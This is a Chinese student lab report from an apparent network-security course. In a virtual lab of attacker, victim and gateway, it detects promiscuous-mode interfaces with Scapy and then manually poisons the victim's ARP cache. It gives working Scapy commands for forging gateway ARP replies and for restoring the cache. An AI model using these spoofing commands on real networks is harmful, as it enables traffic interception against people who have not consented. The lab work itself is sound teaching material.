# 实验四 网络监听

## 一、实验环境

- 网络拓扑

- 攻击者主机（kali attacker)
  - 10.211.55.5
  - 00:1c:42:8c:bc:96/eth0
- 靶机(kali victim)
  - 10.211.55.6
  - 00:1c:42:1d:6c:8f/eth0
- 网关(Debian GNU Linux 10.10 ARM64)
  - 10.211.55.8
  - 00:1c:42:00:00:18


## 二、实验内容

- [x] 检测局域网中的异常终端
- [x] 手工单步“毒化”目标主机的ARP缓存

## 三、实验步骤

### 1.在攻击者主机上提前安装好scapy

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```



### 2.检测局域网中的异常终端

```
# 在靶机上检查网卡的「混杂模式」是否启用
ip link show eth0
```



```
# 在攻击者主机上开启 scapy，不提升权限有些操作无法进行
sudo scapy
```



```bash
在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("10.211.55.6")
```



```bash
# 回到靶机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set eth0 promisc on
# 此时会发现输出结果里多出来了 PROMISC 
ip link show eth0
```



```bash
# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("10.211.55.6")
```



```bash
# 在靶机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set eth0 promisc off
```



查阅资料，`promiscping` 命令会发送 `ARP who-has` 请求。

> - 混杂模式 接收所有经过网卡的数据包，包括不是发给本机的包，即不验证MAC地址
> - 普通模式 网卡只接收发给本机的包

可以看出在混杂模式下，靶机才能收到这个数据包。

在靶机上开启`Wireshark`抓包，也验证了这个问题。发送的包并没有指定目的主机的MAC地址，所以普通模式下发送不会成功

### 3.手工单步“毒化”目标主机的ARP缓存

- 获取当前局域网关的mac地址

  ```bash
  # 构造一个 ARP 请求
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="10.211.55.8")
  
  # 查看构造好的 ARP 请求报文详情
  arpbroadcast.show()
  ```

  

  ```bash
  # 发送这个 ARP 广播请求
  recved = srp(arpbroadcast, timeout=2)
  
  # 网关 MAC 地址如下
  gw_mac = recved[0][0][1].hwsrc
  gw_mac
  ```

  

- 伪造网关的ARP响应包

  ```bash
  # 攻击者主机准备发送给靶机 10.211.55.6
  # ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  
  # 这里要注意按照课件的代码试不能“毒化”的，需要在外面加一层Ethernet帧头
  arpspoofed = Ether()/ARP(op=2, psrc="10.211.55.8", pdst="10.211.55.6", hwdst="00:1c:42:1d:6c:8f")
  
  # 发送上述伪造的 ARP 响应数据包到靶机
  sendp(arpspoofed)
  ```

  

  此时在靶机上查看 `ARP` 缓存会发现网关的 MAC 地址**已被「替换」为攻击者主机的 MAC 地址**

  ```bash
  ip neigh
  ```

  

- 恢复靶机的ARP缓存记录（回到攻击者主机上的scapy交互式终端继续执行命令）

  ```bash
  ## 伪装网关给靶机发送 ARP 响应
  restorepkt1 = Ether()/ARP(op=2, psrc="10.211.55.8", hwsrc="00:1c:42:00:00:18", pdst="10.211.55.6", hwdst="00:1c:42:1d:6c:8f")
  sendp(restorepkt1, count=100, inter=0.2)
  ```

  

  此时在靶机上准备“刷新”网关 `ARP` 记录。

  ```bash
  ## 在靶机上尝试 ping 网关
  ping 10.211.55.8
  ## 静候几秒 ARP 缓存刷新成功，退出 ping
  ## 查看靶机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ip neigh
  ```

  

## 四、参考资料

[网络安全课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)
